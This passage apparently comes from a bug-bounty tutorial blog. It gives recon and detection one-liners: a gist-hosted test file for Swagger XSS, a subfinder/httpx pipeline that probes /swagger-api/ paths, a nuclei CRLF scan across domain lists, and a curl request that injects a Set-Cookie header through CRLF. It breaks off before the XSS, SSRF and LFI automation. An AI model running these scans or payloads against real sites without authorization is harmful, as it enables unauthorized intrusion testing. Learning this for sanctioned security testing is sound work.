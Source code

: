 ```
https://gist.githubusercontent.com/zenelite123/af28f9b61759b800cb65f93ae7227fb5/raw/04003a9372ac6a5077ad76aa3d20f2e76635765b/test.json
```

![](https://miro.medium.com/v2/resize:fit:700/1*Hh0yNM6u_QZH-0hhPn_rzQ.jpeg)

You can also detect Swagger XSS using this simple httpx oneliner with the following command:

```Perl
subfinder -d domain.txt -all -slent | httpx-toolkit -path /swagger-api/ -sc -content-length -mc 200
```

![](https://miro.medium.com/v2/resize:fit:700/1*bFlJfeuet0UOWQUHU8wMDw.jpeg)

## CRLF injection

CRLF Injection is when an attacker inserts malicious newline characters into input fields potentially allowing them to manipulate headers, create HTTP response splitting or inject malicious content in web applications.

```Perl
cat domains.txt | nuclei -t cRlf.yaml -rl 50 -c 30
```

![](https://miro.medium.com/v2/resize:fit:700/1*_t2NIAOdTe0dWbWlKyz4ng.jpeg)

After finding this you can confirm the vulnerability using Burp Suite or simply by using the CURL command.

```Perl
curl -I "https://domain.com/%0aSet-Cookie:coffin=hi;"
```

![](https://miro.medium.com/v2/resize:fit:700/1*-u9GEgJKCOWDDjMi0UGQVw.jpeg)

---

# Automation XSS, SSRF, LFI:


Today will show u how you can find ssrf xss and lfi using [gf](https://github.com/tomnomnom/gf) , [httpx](https://github.com/projectdiscovery/httpx) , [waybackurls](https://github.com/tomnomnom/waybackurls) , [qsreplace](https://github.com/tomnomnom/qsreplace) , [gau](https://github.com/lc/gau) tool .

This will help you in bug bounty because its advanced bug bounty tips.

### So let's start

### XSS

> _First let's start find xss for these we will use these tools_ _[gf](https://github.com/tomnomnom/gf)_ _,_ _[httpx](https://github.com/projectdiscovery/httpx)_ _,_ _[waybackurls](https://github.com/tomnomnom/waybackurls)_ _,_ _[qsreplace](https://github.com/tomnomnom/qsreplace)_ _, and command is like this :_
